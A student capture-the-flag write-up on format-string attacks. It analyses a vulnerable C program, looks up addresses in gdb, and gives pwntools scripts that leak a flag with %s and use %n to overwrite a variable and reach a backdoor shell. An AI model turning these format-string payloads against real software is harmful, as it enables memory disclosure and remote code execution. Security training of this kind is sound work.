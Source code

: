 # Format Strings

## First Flag

### File Analysis

As good practice, we start off by investigating what we're being given. Therefore we be analysing what's inside "_main.c_":

Looking inside the code we can see that it:

-Creates an array "_flag_" accessibable throughout the file whose size is given with _FLAG_BUFFER_SIZE_, which is 40.

```C
#define FLAG_BUFFER_SIZE 40 

char flag[FLAG_BUFFER_SIZE]; // file size is 40!
```

- Stores the _flag.txt_ content inside of the flag array.

```C
FILE *fd = fopen("flag.txt","r");

if(fd != NULL) {
    fgets(flag, FLAG_BUFFER_SIZE, fd);
}```

-Reads 32 bytes of _user input_, stores inside of the character array _buffer_ and then prints it.

```C

        char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```
-An _if_ statement that executes different messages in case we achieved in getting the flag or not.

```C
if(0) {
    printf("I like what you got!\n%s\n", flag);
} else {
    printf("\nDisqualified!\n");
}
```
### Execution Analysis

We will now be analysing how _main.c_ behaviour works on _program_ (which is _main.c_ compilled) with the command:

```bash
checksec --file=program
```

![Alt text](../images/ctf7-1.png)

We can see here that here that the binaries aren't randomize(is not a _PIE_, Position-Independent Executable), but there are canaries, which prevents buffer overflow attacks as they will be detected

Using that knowlegde, we can assume that we are going to use a _format string attack_ as we have a _printf_ that prints an input stored in a 32 byte buffer. 

When we run the program, whenever the function _load___flag_ it will put the flag into the the buffer which, as a global variable, will be stored in the heap. Using _dbg_ we can find out the memory address where the function return address. We will run in the console 
```Bash
gdb program
p load_flag # 
```

![Alt text](../images/ctf7-2.png)

So we now know that the return address is **_0x8049256_**.

We will now prepare the payload by making some changes to the given __exploit_example.py__.

```python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

address = 0x804c060 # the address of "flag"
payload = address.to_bytes(4, byteorder='little') + b"%s" //transforms it into a string format

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```

![Alt text](../images/ctf7-3.png)

Thus, the flag we get is **flag{a36ac6c2b6ecee59b102cf406c2e354d}**!

## Second Flag

Yet again, we are going to start off by running:

```bash
checksec --file=program
```

![Alt text](../images/ctf7-4.png)


As with the other program, we can there are cannaries and it is not a PIE.

As such we are going to analyse the behaviour of main.c! The main  difference is:

```C
if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else 
```
We can see that in this case, if the _key_ value is **0xbeef** then a bash is activated and we have access to the server, allowing us to view the contents of *flag.txt*. Therefore, we must manipulate the value of *key* (which is allocated in the heap as it a global variable), and we can use a format string attack through *'%n'*. But first we must know the address of *key*.

```bash
gdb program
p &key
```

![Alt text](../images/ctf7-5.png)

We can see that address of *key* is: **0x804b324**. Now we must convert 0xbeef to string format, which is 48879. Using this information we now alter the used the previous flag exploit by writting 48875 (48879 - 4) '%n'. So we get:

```Python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)


p.sendline(b"\x24\xb3\x04\x08%.48875x%1$n")
p.interactive()
```
![Alt text](../images/ctf7-6.png)

Thus the flag is: **flag{6ac96371637acd9b27d93579d9cbb888}**
